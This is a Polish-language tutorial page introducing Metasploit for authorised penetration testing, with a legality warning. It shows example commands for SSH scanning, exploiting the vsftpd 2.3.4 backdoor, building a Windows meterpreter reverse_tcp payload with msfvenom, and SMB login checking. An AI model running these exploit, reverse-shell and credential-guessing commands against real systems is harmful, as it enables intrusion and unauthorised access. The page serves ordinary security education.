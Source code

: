 # Metasploit

Metasploit to jeden z najpopularniejszych frameworków do testowania penetracyjnego. Został stworzony w celu odkrywania, eksploatowania i walidowania luk bezpieczeństwa. Wyposażony jest w setki gotowych eksploitów i różnorodne narzędzia, które pozwalają na kompleksową ocenę bezpieczeństwa systemów i sieci.

{% hint style="warning" %}
Korzystanie z Metasploit bez odpowiednich uprawnień jest nielegalne i nieetyczne. Pamiętaj, że narzędzia te są stworzone w celu poprawy bezpieczeństwa, a nie jego łamania.
{% endhint %}

{% embed url="https://www.metasploit.com" %}
Metasploit
{% endembed %}

## Podstawowe funkcje i zastosowania

Poniżej przedstawimy kilka różnych funkcji i zastosowań narzędzia Metasploit.

### Skanowanie

Metasploit umożliwia skanowanie systemów i sieci w poszukiwaniu potencjalnych luk. Na przykład można zeskanować system za pomocą modułu *auxiliary/scanner*:

```bash
msf > use auxiliary/scanner/ssh/ssh_version
msf auxiliary(scanner/ssh/ssh_version) > set RHOSTS 192.168.1.0/24
msf auxiliary(scanner/ssh/ssh_version) > run
```

### Eksploatacja

Gdy luka zostanie znaleziona, Metasploit umożliwia jej eksploatację. Poniżej pokazujemy jak eksploatować podatność w usłudze FTP za pomocą modułu *exploit*:

```bash
msf > use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST 192.168.1.2
msf exploit(unix/ftp/vsftpd_234_backdoor) > exploit
```

### Tworzenie payloadów

Metasploit oferuje możliwość tworzenia payloadów, które można dostarczyć do celu, aby uzyskać dostęp. Można na przykład utworzyć prosty payload dla systemu Windows:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f exe > payload.exe
```

### Przechwytywanie haseł

Metasploit ma wiele modułów do przechwytywania haseł, które mogą być użyte do zdobycia dalszych dostępów. Można użyć np. modułu *smb_login* do sprawdzenia haseł na podatnych maszynach SMB:

```bash
msf > use auxiliary/scanner/smb/smb_login
msf auxiliary(scanner/smb/smb_login) > set RHOSTS 192.168.1.0/24
msf auxiliary(scanner/smb/smb_login) > run
```

## Ściąga

{% embed url="https://cdn.comparitech.com/wp-content/uploads/2019/06/Metasploit-Cheat-Sheet.pdf" %}
Ściąga
{% endembed %}
